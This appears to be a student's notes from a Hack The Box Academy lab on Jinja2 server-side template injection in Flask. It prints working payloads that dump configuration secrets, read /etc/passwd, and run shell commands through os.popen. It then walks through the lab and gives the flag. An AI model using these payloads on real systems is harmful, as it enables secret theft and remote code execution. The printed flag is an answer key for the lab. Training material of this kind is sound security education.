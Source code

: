 ﻿---
sticker: lucide//book-template
---
Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses theÂ `Jinja`Â template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such asÂ `Flask`Â orÂ `Django`. This section will focus on aÂ `Flask`Â web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of theÂ `import`Â statement.

---

## Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:


```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

---

## Local File Inclusion (LFI)

We can use Python's built-in functionÂ `open`Â to include a local file. However, we cannot call the function directly; we need to call it from theÂ `__builtins__`Â dictionary we dumped earlier. This results in the following payload to include the fileÂ `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by theÂ `os`Â library, such asÂ `system`Â orÂ `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in functionÂ `import`. This results in the following SSTI payload:


```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

# Question
---

![Pasted image 20250212131624.png](../../../../IMAGES/Pasted%20image%2020250212131624.png)

We can begin by identifying if the page is vulnerable to SSTI:

![Pasted image 20250212131817.png](../../../../IMAGES/Pasted%20image%2020250212131817.png)

![Pasted image 20250212131825.png](../../../../IMAGES/Pasted%20image%2020250212131825.png)

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```


We can check the web application's configuration by using that payload:

![Pasted image 20250212131952.png](../../../../IMAGES/Pasted%20image%2020250212131952.png)

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![Pasted image 20250212132022.png](../../../../IMAGES/Pasted%20image%2020250212132022.png)

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![Pasted image 20250212132107.png](../../../../IMAGES/Pasted%20image%2020250212132107.png)

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![Pasted image 20250212132138.png](../../../../IMAGES/Pasted%20image%2020250212132138.png)

Got it: 

```
HTB{295649e25b4d852185ba34907ec80643}
```

